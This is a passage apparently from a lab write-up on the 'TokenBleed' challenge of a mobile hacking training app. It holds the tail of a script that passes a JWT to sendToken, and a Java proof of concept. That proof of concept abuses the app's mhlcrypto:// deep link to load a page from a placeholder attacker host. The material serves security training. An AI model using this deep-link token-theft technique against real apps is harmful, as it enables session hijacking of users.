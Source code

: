 ```html
        sendToken(jwt); 
    }
  });
});
</script>
```

<br />





<br />

### Android app PoC

<br />

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.mobilehackinglab.exchange", "com.mobilehackinglab.exchange.SplashActivity"));
intent.setAction("android.intent.action.VIEW");
intent.setData(Uri.parse("mhlcrypto://showPage?url=http://ip:port/index.html"));
startActivity(intent);
```



![](/assets/img/mhl/TokenBleed/1.png)

<br />


